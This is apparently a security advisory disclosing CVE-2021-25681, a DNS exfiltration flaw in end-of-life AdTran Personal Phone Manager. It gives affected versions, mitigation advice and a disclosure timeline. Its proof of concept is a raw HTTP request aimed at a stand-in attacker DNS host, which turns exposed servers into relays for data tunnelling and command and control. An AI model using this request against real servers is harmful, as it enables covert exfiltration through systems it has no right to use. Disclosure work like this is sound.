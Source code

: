# CVE-2021-25681 - AdTran Personal Phone Manager DNS Exfiltration 

--Summary--

The AdTran Personal Phone Manager software is vulnerable to an issue that allows for exfiltration of data over DNS. This could allow for exposed AdTran Personal Phone Manager web servers to be used as DNS redirectors to tunnel arbitrary data over DNS.

ADTRAN, Inc
https://adtran.com

--Affects--

- AdTran Personal Phone Manager
- Verified on v10.8.1
- **Note**: The affected appliances NetVanta 7060 and NetVanta 7100 are considered End of Life and as such this issue will not be patched. It is recommended impacted users update to an actively supported appliance.

--Details--

The AdTran Personal Phone Manager software is vulnerable to an issue that allows for exfiltration of data over DNS. This could allow for exposed AdTran Personal Phone Manager web servers to be used as DNS redirectors to tunnel arbitrary data over DNS. This is achieved by simply making a GET request to the vulnerable server containing a reference to a DNS target that is collecting the tunneled data. This can lead to:

- Utilizing exposed AdTran Personal Phone Manager Services as a redirector for DNS based Command and Control
- Utilizing exposed AdTran Personal Phone Manager Services as a redirector for DNS based arbitrary data exfiltration


-- Proof of Concept --
To exploit the issue all that is necessary is a simple DNS request:

GET http://mydns.attack.com/ HTTP/1.1
Host: SOME ADTRAN HOST HERE
Pragma: no-cache
Cache-Control: no-cache, no-transform
Connection: close

--Mitigation--
The server should be reconfigured to not perform arbitrary DNS lookups when the Host/Get requests do not match. Additionally scoping requests to only be allowed in the context of the application is ideal.

--Timeline--

- 1/21/2021: DNS Exfiltration vulnerability was discovered and documented. A temporary CVE identifier was requested by MITRE. AdTran was also notified with the full details of each finding via their product security contact at https://adtran.com/web/page/portal/Adtran/wp_product_security. A baseline 90 day disclosure timeline was established in the initial communication.
- 1/22/2021: Placeholder CVE-2021-25681 was assigned by MITRE.
- 1/29/2021: A response from AdTran's Product Security Team was received.
- 2/8/2021: The researcher responded to the email acknowledging receipt. The encrypted email contents appeared to be corrupted so a request was made to resend the data.
- 2/9/2021: AdTran's Product Security Team replied with a re-encrypted copy of the previous communication made on 1/29/2021. The reasearcher was able to successfully decrypt the contents of this communication. The communication informed the researcher that the disclosed issues targeting NetVanta 7060 and NetVanta 7100 would not be addressed. The justification for this decision is that software support ended in June of 2018, and product EOL occurred in December of 2020. As such AdTran would not be invesitgating the issues leaving the details of the findings as is. The reseacher responded with acknowledgement to the decision and requested support to proceed with full disclosure outside of the previously established 90 day timeline.
- 2/11/2021: AdTran's product security team responded to the request for full disclosure. They informed the researcher that they would like to discuss the decision internally first. The researcher acknowledged the request and affirmed they would not procceed with disclosure until further notice.
- 3/1/2021: AdTran's product security team reached out to inform the researcher that they would support the full disclosure of the vulnerability at the researcher's discretion. They provided a few details on model names to include as EOL for the disclosure details.
- 3/2/2021: The researcher acknowledges the approval and informs the product security team that a link will be provided to any future publications once the vulnerability is publicly disclosed.
- 3/3/2021: The researcher begins constructing a private repository to prepare the write ups for release.

Casey Erdmann - Offensive Security Consultant